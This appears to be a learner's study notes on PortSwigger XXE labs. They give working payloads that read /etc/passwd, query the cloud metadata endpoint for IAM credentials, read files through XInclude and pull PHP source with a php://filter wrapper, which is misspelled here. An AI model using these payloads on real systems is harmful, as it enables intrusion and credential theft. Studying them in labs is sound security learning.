 [[Portswigger]] [[week1]]
https://portswigger.net/web-security/xxe
(read this)
it is vulnerability  that let the attacker to interfere with application's processing XML , and sometimes allows the attacker to view server's system files  , and it can use to perform SSRF

and it can be arise because it use xml to transmit data between browser and the server and xml it self have a lot of potentially dangerous features

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

let's start with the labs and how we can use it : 
## first lab
in this this lab there's check product and it use XML to transmit data we can use it and make it transmit some files from  the server's system files , we can use this to inject this code   `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`  in xml  to retrieve the file /etc/passwd and you can check for the most useful files here [[File Inclusion]] in Path Traversal section , anyway after the injection it will be like this ``

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## second lab

in this lab we exploit XXE vulnerability to perform SSRF
and to do this use this command 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
then The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name. then you should add the name of the file , so if the folder name was `latest` you just edit this and it will be 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>`
and continue like this until it be like this 
`/latest/meta-data/iam/security-credentials/admin`
 
This should return JSON containing the `SecretAccessKey`.

## third lab

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.
To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`


## fourth lab(when you review this)

## the end(important)
### XXE attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

`POST /action HTTP/1.0 Content-Type: application/x-www-form-urlencoded Content-Length: 7 foo=bar`

Then you might be able submit the following request, with the same result:

`POST /action HTTP/1.0 Content-Type: text/xml Content-Length: 52 <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

## How to find and test for XXE vulnerabilities

The vast majority of XXE vulnerabilities can be found quickly and reliably using Burp Suite's web vulnerability scanner.

Manually testing for XXE vulnerabilities generally involves:

- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.v
 

if you want to show .php file , you can use this , 
`php://filter/read=conert.base64-encode/resource={FILE}`

and you will puut it here 
<.... SYSTEM "HERE">]>